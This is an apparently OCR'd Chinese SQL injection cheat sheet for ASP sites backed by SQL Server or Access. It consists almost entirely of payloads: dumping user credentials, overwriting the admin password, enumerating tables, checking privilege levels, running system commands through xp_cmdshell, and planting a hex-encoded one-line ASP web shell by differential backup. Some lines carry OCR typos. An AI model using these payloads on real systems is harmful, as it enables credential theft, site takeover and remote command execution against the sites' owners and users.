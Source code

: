 ;begin declare @ret varchar(8000) set @ret=':' select @ret=@ret+' '+username+'/'+password from userstable where username>@ret select @ret as ret into foo end
修改管理员的密码为123
.asp?id=××;update admin set password='123' where id =1
.asp?id=××;insert into admin(asd,..) values(123,..) –就能能往admin中写入123了
rebots.txt
猜解数据库中用户名表的名称
and (select count(*) from 数据库.dbo.表名)>0
若表名存在，则工作正常，否则异常
得到用户名表的名称，基本的实现方法是
1：
and (select top 1 name from 数据库.dbo.sysobjects where xtype='U' and status>0 )>0 或
and (Select Top 1 name from sysobjects where xtype=’U’ and status>0)>0
  但在异常中却可以发现表的名称。假设发现的表名是xyz，则
2：
and (select top 1 name from 数据库.dbo.sysobjects where xtype='U' and status>0 and name not in('xyz'，'..'..))>0
  可以得到第二个用户建立的表的名称，同理就可得到所有用建立的  表的名称
3:
and (select top l name from (select top [N]id,name from bysobjects where  xtype=char(85)) T order  by  id  desc)＞1 Ｎ为数据库中地N个表
利用系统表区分数据库类型
and (select count(*) from  sysobjects)>0 
and (select count(*) from msysobjects)>0
若是SQL-SERVE则第一条,ACCESS则两条都会异常
判断是否有比较高的权限
and 1=(select is_srvrolemember('sysadmin'))
and 1=(select is_srvrolemember('serveradmin')) 
判断当前数据库用户名是否为db_owner:
and 1=(select is_member('db_owner'))
xp_cmdshell
:exec master..xp_cmdshell '要执行的cmd命令'
判断长度
and (select top 1 len(字段) from 表名)>5
爆料出正确值
and (select top 1 asc(substring(字段,1,1)) from 表名)>0
差异备份
//备份数据库到某处
;backup database 数据库名 to disk ='c:\\charlog.bak';--
//创建名为datachar的表
;create table [dbo].[datachar] ([cmd] [image])
  cmd为列名 image 数据类型
//插入值,为一句话木马的16进制形式：<%execute(request("a"))%>
;insert into datachar(cmd)values(0x3C25657865637574652872657175657374282261222929253E)—
//进行差异备份,把不同的信息备份到某处
;backup database 数据库名 to disk='目录' WITH DIFFERENTIAL,FORMAT;--





注入：
